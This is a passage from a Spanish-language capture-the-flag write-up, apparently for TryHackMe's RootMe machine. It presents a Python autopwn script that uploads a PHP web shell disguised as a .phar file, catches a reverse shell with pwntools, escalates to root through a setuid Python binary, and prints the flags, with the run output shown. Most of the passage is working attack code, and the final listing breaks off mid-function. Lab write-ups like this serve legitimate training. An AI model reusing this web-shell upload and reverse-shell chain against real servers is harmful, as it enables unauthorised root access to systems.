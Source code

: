 Finalmente, tenemos el main:
```py
if __name__ == '__main__':

    file_upload()
    progress.status('Enviando conexión reversa...')
    threading.Thread(target=conection, args=()).start()
    shell = listen(1234,timeout=10).wait_for_connection()
    shell.sendline("echo 'Ganando acceso como root...'")
    shell.sendline("cd /tmp")
    shell.sendline("echo 'import os ' > testing.py")
    shell.sendline("echo 'os.setuid(0)' >> testing.py")
    shell.sendline("""echo 'os.system("bash")' >> testing.py""")
    shell.sendline("python testing.py")
    shell.sendline("echo 'Listo, maquina rooteada, a continuacion las flags'")
    shell.sendline("cat /var/www/user.txt")
    shell.sendline("cat /root/root.txt")
    shell.interactive()
```

Acá se hacen las llamadas a las funciones, utilizamos hilos para llamar a la función de conexión, esto es debido a que necesitamos tener el listener al mismo tiempo. Luego, cuando se establece la conexión, mediante la función sendline, se crea un archivo python igual en que la escalada de privilegios, se ejecuta y se gana acceso como root.

Si lo ejecutamos:
```
www-data@rootme:/tmp$ echo 'os.setuid(0)' >> testing.py
www-data@rootme:/tmp$ echo 'os.system("bash")' >> testing.py
www-data@rootme:/tmp$ python testing.py
Listo, maquina rooteada, a continuacion las flags
THM{y0u_g0t_a_sh3ll}
THM{pr1v1l3g3_3sc4l4t10n}
$ whoami
root
```

Acá está el código completo:
```py
import requests
from pwn import *
from os import sys

if len(sys.argv) < 3:
    print(f'[!] Uso: python3 {sys.argv[0]} "Your_ip" "Target_IP"\n' )
    sys.exit(1)


url = f"http://{sys.argv[2]}/panel/" 
url_up = f"http://{sys.argv[2]}/uploads/"
progress = log.progress("Autopwn")

s = requests.Session()

def file_upload():

        payload = """  <?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?> """ 

        data = {
                'submit' : "Upload"
            }

        files  = {'fileUpload':(f'shell.phar',payload),
                    
                }
        progress.status('Subiendo archivo php malicioso')
```